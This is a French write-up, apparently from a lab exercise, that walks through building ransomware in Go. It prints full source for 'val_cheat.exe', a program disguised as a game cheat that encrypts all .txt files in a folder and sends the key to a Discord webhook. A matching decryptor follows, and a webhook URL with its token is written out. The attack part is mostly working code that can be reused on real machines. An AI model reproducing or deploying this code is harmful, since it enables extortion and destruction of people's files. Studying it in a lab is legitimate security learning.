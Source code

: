 ## 1. Créer un serveur discord avec un webhook

J'ai utilisé le même serveur et Webhook que pour les PS précédents.

## 2. Créer le tool de chiffrement des fichiers

Pour le tool, j'ai pris un script en golang que j'ai trouvé sur [github.](https://gist.github.com/donvito/efb2c643b724cf6ff453da84985281f8) Je l'ai modifié pour qu'il s'éxécute dans "C:\Users\benai\hidden-folder\mdp.txt" et que mon webhook envoie la clé de déchiffrement sur mon serveur discord. 

A la fin, le val_cheat.go ressemble à ca:
```
package main

import (
	"bytes"
	"crypto/aes"
	"crypto/cipher"
	"crypto/rand"
	"encoding/hex"
	"fmt"
	"io"
	"io/ioutil"
	"net/http"
	"path/filepath"
)

func main() {
	// Générer une clé aléatoire pour AES-256
	bytes := make([]byte, 32) // 32 bytes = 256 bits
	if _, err := rand.Read(bytes); err != nil {
		panic(err.Error())
	}

	// Encoder la clé en string hexadécimale
	key := hex.EncodeToString(bytes)
	fmt.Printf("Clé générée pour le chiffrement : %s\n", key)

	// Envoyer la clé au webhook
	sendKeyToWebhook(key, "https://discord.com/api/webhooks/1317566707765743716/MYkq5CE-sHFAuylm11w7XN0fWfxgU3FN81_xuKtkVH7LKA_kVHT75fy7GKQDV3fDGSzR")

	// Chemin vers le dossier contenant les fichiers .txt
	folderPath := `C:\Users\benai\hidden-folder\`

	// Parcourir tous les fichiers .txt dans le dossier
	files, err := filepath.Glob(filepath.Join(folderPath, "*.txt"))
	if err != nil {
		panic(err)
	}

	// Pour chaque fichier, lire et chiffrer son contenu
	for _, file := range files {
		content, err := ioutil.ReadFile(file)
		if err != nil {
			fmt.Printf("Erreur lors de la lecture du fichier %s: %v\n", file, err)
			continue
		}

		// Chiffrer le contenu du fichier
		encrypted := encrypt(string(content), key)

		// Remplacer le contenu du fichier par la version chiffrée
		err = ioutil.WriteFile(file, []byte(encrypted), 0644)
		if err != nil {
			fmt.Printf("Erreur lors de l'écriture du fichier %s: %v\n", file, err)
			continue
		}

		fmt.Printf("Fichier %s chiffré avec succès.\n", file)
	}
}

// Fonction pour envoyer la clé au webhook Discord
func sendKeyToWebhook(key string, webhookURL string) {
	payload := fmt.Sprintf(`{"content": "Clé générée : %s"}`, key)
	_, err := http.Post(webhookURL, "application/json", bytes.NewBuffer([]byte(payload)))
	if err != nil {
		fmt.Printf("Erreur lors de l'envoi de la clé au webhook : %v\n", err)
	}
}

func encrypt(stringToEncrypt string, keyString string) (encryptedString string) {
	key, _ := hex.DecodeString(keyString)
	plaintext := []byte(stringToEncrypt)

	// Créer un nouveau bloc de chiffrement avec la clé
	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err.Error())
	}

	// Créer un GCM
	aesGCM, err := cipher.NewGCM(block)
	if err != nil {
		panic(err.Error())
	}

	// Créer un nonce
	nonce := make([]byte, aesGCM.NonceSize())
	if _, err = io.ReadFull(rand.Reader, nonce); err != nil {
		panic(err.Error())
	}

	// Chiffrer les données en utilisant aesGCM.Seal
	ciphertext := aesGCM.Seal(nonce, nonce, plaintext, nil)
	return fmt.Sprintf("%x", ciphertext)
}
```
Pour le rendre éxécutable je l'ai converti en .exe pour qu'une fois ouvert sur mon PC victime, il s'exécute lorsque la victime l'ouvre. Je le fais passer par pype.sellan.fr pour le télécharger sur ma VM.


## 3. Envoyer la clef sur discord
Mon fichier de mot de passe ressemblait à ca:

![](mdp.png)


Une fois le val_cheat.exe lancé, mon fichier est entièrement chiffré de cette manière: 

![](chiffré.png)

La clé de déchiffrement m'est envoyée sur discord par mon frérot Nautilus:

![](clé-ds.png)


## 4. Développez le tool de déchiffrement. 

Pour faire le decrypt.go, je me suis basé sur le val_cheat.go:

```
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"encoding/hex"
	"fmt"
	"io/ioutil"
	"path/filepath"
)

func main() {
	// Demander la clé de déchiffrement via le terminal
	var key string
	fmt.Print("Entrez la clé de déchiffrement : ")
	fmt.Scanln(&key)

	// Chemin vers le dossier contenant les fichiers .txt
	folderPath := `C:\Users\benai\hidden-folder\`

	// Parcourir tous les fichiers .txt dans le dossier
	files, err := filepath.Glob(filepath.Join(folderPath, "*.txt"))
	if err != nil {
		panic(err)
	}

	// Pour chaque fichier, lire et déchiffrer son contenu
	for _, file := range files {
		content, err := ioutil.ReadFile(file)
		if err != nil {
			fmt.Printf("Erreur lors de la lecture du fichier %s: %v\n", file, err)
			continue
		}

		// Déchiffrer le contenu du fichier
		decrypted := decrypt(string(content), key)

		// Remplacer le contenu du fichier par la version déchiffrée
		err = ioutil.WriteFile(file, []byte(decrypted), 0644)
		if err != nil {
			fmt.Printf("Erreur lors de l'écriture du fichier %s: %v\n", file, err)
			continue
		}

		fmt.Printf("Fichier %s déchiffré avec succès.\n", file)
	}
}

// Fonction pour déchiffrer les données
func decrypt(encryptedString string, keyString string) string {
	key, _ := hex.DecodeString(keyString)
	ciphertext, _ := hex.DecodeString(encryptedString)

	// Créer un bloc de chiffrement avec la clé
	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err)
	}

	// Créer un GCM
	aesGCM, err := cipher.NewGCM(block)
	if err != nil {
		panic(err)
	}

	// Extraire le nonce
	nonceSize := aesGCM.NonceSize()
	nonce, ciphertext := ciphertext[:nonceSize], ciphertext[nonceSize:]

	// Déchiffrer les données
	plaintext, err := aesGCM.Open(nil, nonce, ciphertext, nil)
	if err != nil {
		panic(err)
	}

	return string(plaintext)
}
```


Je le converti en decrypt.exe et je l'éxécute sur mon PC victime, j'y entre la clé de déchiffrement:
![](decrypt.png)

Je réouvre mon mdp.txt et mes mots de passe ont été déchiffrés
![](mdp-decrypt.png)
